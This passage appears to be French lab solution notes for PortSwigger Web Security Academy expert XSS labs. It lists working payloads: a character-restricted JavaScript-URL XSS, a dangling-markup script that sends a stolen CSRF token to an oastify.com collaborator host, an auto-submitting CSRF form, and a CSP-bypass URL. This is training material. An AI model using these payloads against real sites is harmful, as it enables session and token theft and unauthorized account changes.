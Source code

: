 ### (EXPERT) Reflected XSS in a JavaScript URL with some characters blocked

https://0a61006b0327942c816a7fab008c0040.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27

### (EXPERT) Reflected XSS protected by very strict CSP, with dangling markup attack 

Une XSS se trouve dans le paramètre "email" de la fonctionnalité de changement d'adresse. Elle est de la forme **adresse"><payload**

Premier payload à envoyer dans le serveur d'exploit pour voler le token CSRF : 

    <script>
    if(window.name) {
            new Image().src='//qnhcdi95usgfy75x498850i8mzsqgu4j.oastify.com?'+encodeURIComponent(window.name);
            } else {
                    location = 'https://0a7c00b9036364c0812ee98b00940058.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://exploit-0a2f00e8032164a9817ae881014f00d1.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
    }
    </script>


Payload final à envoyer pour changer l'adresse après avoir récupéré le jeton CSRF sur Collaborator : 

    <html>
      <!-- CSRF PoC - generated by Burp Suite Professional -->
      <body>
        <form action="https://0a7c00b9036364c0812ee98b00940058.web-security-academy.net/my-account/change-email" method="POST">
          <input type="hidden" name="email" value="&lt;script&gt;alert&#40;&quot;test&quot;&#41;&#59;&lt;script&gt;&#64;gmail&#46;com" />
          <input type="hidden" name="csrf" value="UpaLOniXME4QBmFfTLv1a8fpOoQBKcQI" />
          <input type="submit" value="Submit request" />
        </form>
        <script>
          history.pushState('', '', '/');
          document.forms[0].submit();
        </script>
      </body>
    </html>



### (EXPERT) Reflected XSS protected by CSP, with CSP bypass

https://0a81002b0431f3f3817103770080005a.web-security-academy.net/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27 



## === CSRF ===
